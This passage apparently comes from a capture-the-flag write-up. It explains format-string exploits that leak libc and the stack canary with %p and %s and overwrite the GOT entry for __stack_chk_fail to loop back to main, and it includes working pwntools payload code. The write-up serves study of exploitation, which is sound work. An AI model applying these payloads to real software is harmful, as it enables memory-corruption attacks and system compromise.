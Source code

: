 ```bash
```

[exploit5.py](exploit5.py) is the same as [exploit.py](exploit.py) (above) except that libc and the canary are leaked together in the first pass:

```
payload  = b'%' + str(libcoffset).encode().rjust(2,b'0') + b'$018p'
payload += b'%' + str(canaryoffset).encode().rjust(2,b'0') + b'$018p'
payload += fmtstr_payload(offset+2,{binary.got['__stack_chk_fail']:binary.symbols['main']},numbwritten=2*18)
```

This means `2` has to be added to the `offset` for `fmtstr_payload` as well as `numbwritten` also being doubled.

The final _pivot_ is nothing more than a `ret` gadget, since there's no format string that needs to be skipped over.


### Option 1a:  Option 1 using `%s` to leak libc

From [exploit7.py](exploit7.py):

```python
# first pass, inf. retries if we blow out canary, leak libc
p.recvuntil('name: ')
infpass  = fmtstr_payload(offset+1,{binary.got['__stack_chk_fail']:binary.symbols['main']},numbwritten=8)
payload  = b'%' + str(offset+1+(len(infpass) // 8)).encode().rjust(2,b'0') + b'$008s'
payload += infpass
payload += p64(binary.got['printf'])
payload += ((0x118 - 0x10 + 1) - len(payload)) * b'A'
p.send(payload)
p.recvuntil('Hello ')
_ = p.recv(8).lstrip()
printf = u64(_ + (8-len(_))*b'\x00')
log.info('printf: ' + hex(printf))
baselibc = printf - libc.symbols['printf']
```

This is identical to the previous exploit, however instead of leaking libc from the stack (easier), this is leaking from the GOT.  This is a little tricker when combining with a write format string.

First, the write format string `infpass` is computed--we need this to compute its length.  The `+1` is to make room for the read format string.

Next, the read format string requires an argument, and since the argument may have (and will have) nulls, then that address has to be last.  Its offset is `+1` for the same reasons as before plus the length of the write format string / 8.

Then, we add the write format string exploit to the payload, followed by the address that `%008s` will _read and emit_ (not just emit like `%p`, i.e. `%p` emits an address, `%s` the contents of the address up to the first null).

The conversion is a bit different, but the results are the same, and the rest of the code is identical to the previous exploit.

